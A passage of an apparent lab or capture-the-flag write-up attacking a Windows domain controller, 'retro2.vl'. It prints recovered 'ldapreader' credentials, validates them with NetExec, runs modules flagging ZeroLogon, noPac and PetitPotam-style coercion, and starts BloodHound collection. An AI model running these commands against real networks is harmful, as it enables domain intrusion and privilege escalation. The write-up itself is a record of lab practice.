 We got the password , let's open it. there is some scripting lines, we found some credentials for the `ldapreader`.


```yml
strLDAP = "LDAP://OU=staff,DC=retro2,DC=vl"
strUser = "retro2\ldapreader"
strPassword = "ppYaVcB5R"
``` 

> valid credentials

```sh
$ nxc smb retro2.vl -u 'ldapreader' -p 'ppYaVcB5R'
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R 
```

### Vulnerabilies

There is many weaknesses in this target as a example : 

```sh
$ nxc smb retro2.vl -u 'ldapreader' -p 'ppYaVcB5R'  -M coerce_plus
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R 
COERCE_PLUS 10.10.65.246    445    BLN01            VULNERABLE, DFSCoerce
COERCE_PLUS 10.10.65.246    445    BLN01            VULNERABLE, PetitPotam
COERCE_PLUS 10.10.65.246    445    BLN01            VULNERABLE, MSEven

$ nxc smb retro2.vl -u 'ldapreader' -p 'ppYaVcB5R'  -M zerologon  
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R 
ZEROLOGON   10.10.65.246    445    BLN01            VULNERABLE
ZEROLOGON   10.10.65.246    445    BLN01            Next step: https://github.com/dirkjanm/CVE-2020-1472

$ nxc smb retro2.vl -u 'ldapreader' -p 'ppYaVcB5R'  -M nopac       
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R 
NOPAC       10.10.65.246    445    BLN01            TGT with PAC size 1427
NOPAC       10.10.65.246    445    BLN01            TGT without PAC size 694
NOPAC       10.10.65.246    445    BLN01            
NOPAC       10.10.65.246    445    BLN01            VULNERABLE
NOPAC       10.10.65.246    445    BLN01            Next step: https://github.com/Ridter/noPac
```

### BloodHound

```sh
nxc ldap 10.10.65.246 -u 'ldapreader' -p 'ppYaVcB5R'  --bloodhound --dns-server 10.10.65.246 -c All --dns-tcp
```
